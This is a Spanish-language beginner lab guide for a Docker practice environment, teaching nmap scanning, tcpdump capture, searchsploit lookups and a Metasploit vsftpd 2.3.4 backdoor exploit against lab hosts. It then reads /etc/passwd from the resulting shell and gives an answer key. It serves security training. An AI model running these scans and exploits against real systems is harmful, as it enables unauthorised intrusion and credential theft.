


# 🛠️ Lab tools-01: Herramientas Esenciales

> Domina las herramientas fundamentales de ciberseguridad: nmap, wireshark, burp suite, metasploit y más.

## 📊 Diagrama del Lab



## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:

- [ ] Usar Nmap para descubrir hosts y servicios
- [ ] Capturar y analizar tráfico con tcpdump/Wireshark
- [ ] Interceptar tráfico web con Burp Suite
- [ ] Buscar exploits con SearchSploit
- [ ] Usar Metasploit para explotación básica
- [ ] Combinar herramientas en un flujo de trabajo

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟢 Principiante |
| **Tiempo estimado** | 45 minutos |
| **XP en juego** | 150 puntos |
| **Herramientas** | nmap, wireshark, burp, metasploit, searchsploit |
| **Flags** | 4 |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno
cd labs/fundamentos/tools-01/
docker compose up -d

# Verificar que los contenedores están corriendo
docker compose ps

# Obtener shell en Kali
docker compose exec kali bash
```

## 📋 Ejercicios

### Ejercicio 1: Nmap - Descubrimiento (25 XP)

**Tarea:** Descubre hosts y servicios con diferentes tipos de escaneo:

```bash
# Ping sweep
nmap -sn 10.10.10.0/24

# TCP SYN scan (stealth)
nmap -sS -p 22,80,443,21,445 10.10.10.0/24

# Version detection
nmap -sV -p 22,80,443,21,445 10.10.10.0/24

# Scripts de enumeración
nmap --script=http-enum -p 80 10.10.10.10
nmap --script=smb-enum-shares -p 445 10.10.10.0/24
```

**Preguntas:**

1. ¿Cuántos hosts están activos en la red?
   - Respuesta: `[___]`

2. ¿Qué servicios están corriendo en el puerto 80 del Web Server?
   - Respuesta: `[___]`

3. ¿Qué shares SMB están disponibles?
   - Respuesta: `[___]`

---

### Ejercicio 2: Tcpdump - Captura de Tráfico (50 XP)

**Tarea:** Captura y analiza tráfico de red:

```bash
# Capturar tráfico en la interfaz eth0
tcpdump -i eth0 -w /tmp/captura.pcap

# En otra terminal, generar tráfico
curl http://10.10.10.10

# Detener captura con Ctrl+C

# Analizar la captura
tcpdump -r /tmp/captura.pcap -n

# Filtrar solo tráfico HTTP
tcpdump -r /tmp/captura.pcap -A | grep -i "get\|post"

# Filtrar por host específico
tcpdump -r /tmp/captura.pcap host 10.10.10.10
```

**Preguntas:**

1. ¿Qué protocolo se usa para la petición HTTP?
   - Respuesta: `[___]`

2. ¿Qué puerto de origen usa el cliente?
   - Respuesta: `[___]`

3. ¿Puedes ver el contenido de la petición HTTP?
   - Respuesta: `[___]`

---

### Ejercicio 3: SearchSploit - Buscar Exploits (25 XP)

**Tarea:** Busca exploits para las versiones encontradas:

```bash
# Actualizar base de datos
searchsploit --update

# Buscar exploit para Apache 2.4.49
searchsploit apache 2.4.49

# Buscar exploit para vsftpd 2.3.4
searchsploit vsftpd 2.3.4

# Buscar exploit para Samba
searchsploit samba | grep -i "linux"

# Ver contenido de un exploit
searchsploit -m 49908
cat 49908.py
```

**Preguntas:**

1. ¿Qué exploit existe para vsftpd 2.3.4?
   - Respuesta: `[___]`

2. ¿Qué tipo de exploit es (remote/local)?
   - Respuesta: `[___]`

3. ¿Qué CVE está asociado al exploit de Apache?
   - Respuesta: `[___]`

---

### Ejercicio 4: Metasploit - Explotación Básica (50 XP)

**Tarea:** Usa Metasploit para explotar una vulnerabilidad:

```bash
# Iniciar Metasploit
msfconsole -q

# Buscar exploit para vsftpd backdoor
search vsftpd 2.3.4

# Configurar exploit
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 10.10.10.20
exploit

# Si funciona, tendrás una shell
whoami
id
cat /etc/passwd

# Salir de la shell
exit
```

**Preguntas:**

1. ¿Lograste obtener una shell remota?
   - Respuesta: `[___]`

2. ¿Qué usuario estás ejecutando?
   - Respuesta: `[___]`

3. ¿Qué archivos sensibles puedes ver?
   - Respuesta: `[___]`

---

## 🔍 Flujo de Resolución



## 🏁 Validación

```bash
# Ejecutar validación automática
./scripts/validate.sh

# Verificar respuestas específicas
./scripts/check-exercise.sh 1
./scripts/check-exercise.sh 2
./scripts/check-exercise.sh 3
./scripts/check-exercise.sh 4
```

## 📝 Criterios de Éxito

| Criterio | Puntos | Estado |
|----------|--------|--------|
| Nmap scan ejecutado | 25 | ⬜ |
| Tcpdump capture analizada | 50 | ⬜ |
| SearchSploit usado | 25 | ⬜ |
| Metasploit explotación exitosa | 50 | ⬜ |
| **Total** | **150** | ⬜ |

## 🎓 Conceptos Clave

### Herramientas y sus Usos

```
Nmap:           Descubrimiento de red y servicios
Tcpdump:        Captura de paquetes (CLI)
Wireshark:      Análisis de paquetes (GUI)
Burp Suite:     Intercepción y testing web
SearchSploit:   Buscar exploits (offline)
Metasploit:     Framework de explotación
Nikto:          Scanner de vulnerabilidades web
```

### Flujo de Trabajo Tipico

```
1. Reconocimiento (Nmap)
   → Descubrir hosts y servicios

2. Enumeración (Scripts Nmap, Nikto)
   → Identificar versiones y configuraciones

3. Análisis de vulnerabilidades (SearchSploit, Nuclei)
   → Encontrar exploits disponibles

4. Explotación (Metasploit, exploits manuales)
   → Obtener acceso

5. Post-explotación
   → Mantener acceso, escalar privilegios
```

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔊 Click para ver la solución completa</summary>

### Ejercicio 1
1. 3 hosts activos
2. Apache/2.4.49 HTTP
3. may_share, print$

### Ejercicio 2
1. TCP
2. Puerto efímero (32768-60999)
3. Sí, con `tcpdump -A`

### Ejercicio 3
1. exploit/unix/ftp/vsftpd_234_backdoor
2. Remote
3. CVE-2021-41773

### Ejercicio 4
1. Sí
2. root
3. /etc/passwd, /etc/shadow (si eres root)

</details>

---

*Lab creado para CyberDefense Labs — Nivel Fundamentos*
